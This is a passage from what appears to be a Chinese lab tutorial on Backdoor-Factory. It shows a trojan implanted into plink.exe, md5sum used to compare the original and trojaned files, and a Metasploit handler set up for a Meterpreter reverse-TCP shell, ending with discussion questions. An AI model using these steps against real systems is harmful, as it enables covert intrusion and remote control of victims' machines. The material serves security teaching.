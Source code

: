 由上面的 ls 可以发现植入木马后，程序大小并未发生变化，这对于隐藏木马是非常有利的。接着我们使用工具 `md5sum` 可以对两个程序的前后结构进行对比，查看是否已经改变。

**小窍门：在平常的网络软件下载过程中，可以使用下载软件的 md5 和官网正版软件的 md5 进行对比，如果两个软件的 md5 不一样，则可能存在被植入了木马的风险**：

```
# 查看原本程序的 md5
md5sum /usr/share/windows-binaries/plink.exe 

# 查看生成的木马文件的 md5
md5sum backdoored/plink.exe
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482894865550.png-wm)


接着将开启 `msfconsole`，并且使用相关模块进行监听。在 Kali Linux 命令行终端中输入命令：

```
# 开启 msfconsole 用以监听
msfconsole

# 使用相应的攻击模块
# 设置攻击者的本地主机 ip 地址
# 设置攻击者的本地主机侦听的端口
# 输入攻击命令

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.122.101
msf > set lport 4444
msf > exploit
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482907669343.png-wm)


输入完命令之后，攻击者的主机进入侦听状态。接下来只要将文件夹 `backdoored` 下的木马文件 `plink.exe` 上传至目标靶机（Windows 操作系统），只要目标靶机上的用户运行木马程序 `plink.exe`，即可建立起目标靶机和攻击机两者之间的联系，此时会在 msfconsole 命令行终端中会获得目标靶机与攻击机的 shell 会话通道。由于实验楼没有安装 Windows 系统，所以这一步步骤在这里不进行演示。

## 五、总结和思考

### 5.1 总结和思考

本实验主要介绍 Backdoor-facotry 的使用方法。首先对要注入代码的目标程序，即 Windows 下的 EXE 格式，使用命令参数查看 `-s Show` 有哪些可以使用模块。接着对向目标程序中植入木马。木马文件的大小并未改变，但由 md5sum 可以知道目标程序代码结构已经发生改变。

最后开启 msfconsole 进行监听，此时将木马文件上传到目标靶机，只要目标靶机上的管理员点击该木马程序，则建立起会话通道，攻击者获得目标靶机管理权限。文章结构为：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482907365256.png-wm)


## 六、课后作业

### 6.1 课后作业

Backdoor-Factory 是一款老牌的木马生成程序，它向正常的程序中植入木马，在不影响正常程序功能的情况下，通过植入木马的方式，迷惑目标主机管理员。让木马程序神不知鬼不觉地被下载到目标靶机中。一般这种程序比较难发现，学习完本实验后，请你思考如下问题：

- 黑客攻击目标主机的过程中，通常有哪几种方法将木马上传到目标靶机？
- 木马程序与原程序相比，文件大小是变大好还是变小好，或是保持不变？